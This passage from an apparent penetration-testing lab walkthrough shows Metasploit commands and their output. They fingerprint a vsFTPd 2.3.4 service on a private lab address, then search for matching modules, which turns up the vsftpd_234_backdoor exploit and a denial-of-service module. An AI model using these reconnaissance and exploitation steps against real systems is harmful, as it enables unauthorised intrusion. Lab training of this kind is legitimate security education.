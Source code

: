 
   ![SSH Post Exploitation](/images/ssh-post-exploitation.png)
   
---

### FTP Exploitation Example

1. **FTP Service Identification and Exploitation**:
   First, we identify an open FTP port (21/TCP) and check the version:

```bash

msf6 > use auxiliary/scanner/ftp/ftp_version

msf6 auxiliary(scanner/ftp/ftp_version) > set RHOSTS 192.168.74.162

RHOSTS => 192.168.74.162

msf6 auxiliary(scanner/ftp/ftp_version) > run

[+] 192.168.74.162:21 - FTP Banner: '220 (vsFTPd 2.3.4)\x0d\x0a'

[*] 192.168.74.162:21 - Scanned 1 of 1 hosts (100% complete)

[*] Auxiliary module execution completed

```

![[Pasted image 20250408094640.png]]
  
After identifying the vulnerable vsFTPd 2.3.4 version, we search for related exploits:

```bash

msf6 auxiliary(scanner/ftp/ftp_version) > search vsFTPd

Matching Modules

================

# Name Disclosure Date Rank Check Description

- ---- --------------- ---- ----- -----------

0 auxiliary/dos/ftp/vsftpd_232 2011-02-03 normal Yes VSFTPD 2.3.2 Denial of Service

1 exploit/unix/ftp/vsftpd_234_backdoor 2011-07-03 excellent No VSFTPD v2.3.4 Backdoor Command Execution

Interact with a module by name or index. For example info 1, use 1 or use exploit/unix/ftp/vsftpd_234_backdoor

```
